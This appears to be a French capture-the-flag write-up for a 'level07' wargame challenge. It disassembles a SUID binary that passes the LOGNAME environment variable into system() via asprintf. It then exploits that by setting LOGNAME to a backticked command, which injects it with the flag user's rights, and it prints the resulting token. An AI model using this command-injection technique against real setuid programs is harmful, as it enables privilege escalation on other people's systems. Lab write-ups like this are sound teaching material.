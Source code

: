 ﻿```bash
$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

Encore un fichier qui a le bit SUID activé. On peut l'exécuter avec les droits de l'utilisateur flag07.

```bash
$ ./level07
level07
```

En disassemblant le binaire, on obtient les instructions suivantes :

```c
...
0x08048567 <+83>:    movl   $0x0,0x14(%esp)
0x0804856f <+91>:    movl   $0x8048680,(%esp)
0x08048576 <+98>:    call   0x8048400 <getenv@plt>       # 0x8048680 => "LOGNAME"
0x0804857b <+103>:   mov    %eax,0x8(%esp)
0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)         # 0x8048688 => "/bin/echo %s "
0x08048587 <+115>:   lea    0x14(%esp),%eax
0x0804858b <+119>:   mov    %eax,(%esp)
0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
0x08048593 <+127>:   mov    0x14(%esp),%eax
0x08048597 <+131>:   mov    %eax,(%esp)
0x0804859a <+134>:   call   0x8048410 <system@plt>
0x0804859f <+139>:   leave
0x080485a0 <+140>:   ret
```

Globalement on voit un appel a getenv() qui récupère la valeur de la variable d'environnement "LOGNAME",
qui la passe ensuite à asprintf() pour construire une commande à exécuter avec system().

On peut donc exploiter cela en settant LOGNAME à une valeur que bash interprétera comme une commande :)

```bash
$ export LOGNAME=\`getflag\`
$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```